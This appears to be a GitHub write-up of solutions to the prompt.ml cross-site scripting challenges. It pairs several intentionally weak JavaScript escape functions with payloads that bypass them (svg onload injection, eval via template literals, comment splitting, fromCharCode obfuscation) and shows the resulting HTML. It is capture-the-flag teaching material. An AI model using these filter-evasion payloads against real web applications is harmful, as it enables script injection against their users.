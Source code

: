 # prompt.ml

> prompt(1) to win

## Challenges
- [0](#0)
- [1](#1)
- [2](#2)
- [7](#7)
- [A](#a)

## 0

- Task
 
```
function escape(input) {
    // warm up
    // script should be executed without user interaction
    return '<input type="text" value="' + input + '">';
} 
```

- Solution

```
"><svg onload=prompt(1)//
```

- HTML source

```
<input type="text" value=""><svg onload=prompt(1)//">
```

## 1

- Task

```
function escape(input) {
    // tags stripping mechanism from ExtJS library
    // Ext.util.Format.stripTags
    var stripTagsRE = /<\/?[^>]+>/gi;
    input = input.replace(stripTagsRE, '');

    return '<article>' + input + '</article>';
}
```

- Solution

```
<svg onload=prompt(1)//
```

- HTML source

```
<article><svg onload=prompt(1)// </article>
```

## 2

- Task

```
function escape(input) {
    //                      v-- frowny face
    input = input.replace(/[=(]/g, '');

    // ok seriously, disallows equal signs and open parenthesis
    return input;
}     
```

- Solution

```
<script>eval.call`${'prompt\x281\x29'}`</script>
```

HTML source

```
<script>eval.call`${'prompt\x281\x29'}`</script>
```

## 7

- Task

```
function escape(input) {
    // pass in something like dog#cat#bird#mouse...
    var segments = input.split('#');
    return segments.map(function(title) {
        // title can only contain 12 characters
        return '<p class="comment" title="' + title.slice(0, 12) + '"></p>';
    }).join('\n');
}
```

- Solution

```
"><script>/*#*/prompt/*#*/(1)/*#*/</script>
```

- HTML source

```
<p class="comment" title=""><script>/*"></p>
<p class="comment" title="*/prompt/*"></p>
<p class="comment" title="*/(1)/*"></p>
<p class="comment" title="*/</script>"></p>
```. Escape encoding

### A

- Task

```
function escape(input) {
    // (╯°□°）╯︵ ┻━┻
    input = encodeURIComponent(input).replace(/prompt/g, 'alert');
    // ┬──┬ ﻿ノ( ゜-゜ノ) chill out bro
    input = input.replace(/'/g, '');

    // (╯°□°）╯︵ /(.□. \）DONT FLIP ME BRO
    return '<script>' + input + '</script> ';
}   
```

- Solution

```
eval(String.fromCharCode(112).concat(String.fromCharCode(114).concat(String.fromCharCode(111).concat(String.fromCharCode(109).concat(String.fromCharCode(112).concat(String.fromCharCode(116)))))))(1)
```

- HTML source

```
<script>eval(String.fromCharCode(112).concat(String.fromCharCode(114).concat(String.fromCharCode(111).concat(String.fromCharCode(109).concat(String.fromCharCode(112).concat(String.fromCharCode(116)))))))(1)</script>
```

